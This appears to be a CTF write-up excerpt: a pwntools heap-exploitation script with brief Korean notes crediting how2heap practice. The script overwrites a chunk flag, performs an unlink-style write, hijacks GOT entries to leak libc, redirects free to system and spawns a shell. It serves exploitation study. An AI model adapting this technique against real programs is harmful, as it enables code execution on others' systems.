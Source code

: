 ```python

add(2,2)
add(3,12)
remove(2)
add_large()
add_dummy()

r("Your choice : ")
s("1")
r("choice :")
s("7777" + "\x01") # chunk flag overwrite
modify(2,p64(0) + p64(0x21) + p64(target-0x18) + p64(target-0x10) + p64(0x20))
remove(3)

modify(2,p64(0) + p64(puts_got)*2 + p64(free_got))
modify(2,p64(puts_plt))
remove(4)

libc = u64(t.recv(6).ljust(8,'\x00')) -0x6f690
log.success("libc ==> " + hex(libc))

system = libc + 0x45390
modify(2,p64(system))
modify(5,"/bin/sh\x00")
remove(5)

pause()

t.interactive()
```

dummy chunk를 만든 이유는 flag를 설정할 수 있는게 case 2 chunk밖에 없어서 추가적으로 free가 필요하기 때문에 하나 생성했다. how2heap 문제들을 풀다보니 계속해서 free를 이용해서 leak하고 익스하는데 유용하긴 한 것 같다.